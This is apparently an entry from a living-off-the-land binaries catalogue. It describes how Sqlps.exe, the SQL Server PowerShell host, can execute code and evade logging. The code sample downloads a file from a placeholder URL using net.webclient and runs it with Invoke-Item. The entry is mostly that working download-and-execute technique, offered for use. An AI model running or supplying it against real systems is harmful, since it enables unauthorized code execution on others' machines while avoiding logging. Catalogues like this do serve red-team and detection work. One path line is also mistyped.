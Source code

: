 ## Sqlps.exe

* Functions: Execute, evade logging

```
Sqlps.exe -noprofile
```

Acknowledgements:
* Bryon - @bryon_

Code sample:

* Downloading & executing a file

```
C:\Users>"C:\Program Files (x86)\Microsoft SQL Server\100\Tools\Binn\SQLPS.exe"
PS SQLSERVER> (New-Object net.webclient).downloadfile("http://<source file URL>","<local save path>")
PS SQLSERVER> ii <downloaded executable>
# ii is shorthand for Invoke-Item
```

Notes

* Path above may vary slightly. If '100' is invalid, try replacing '100' with '110', this was required in a lab setup.

Resources:
* https://twitter.com/bryon_/status/975835709587075072

Full path:
```
C:\Program files (x86\Microsoft SQL Server\100\Tools\Binn\sqlps.exe
```

Notes:
A Powershell host.



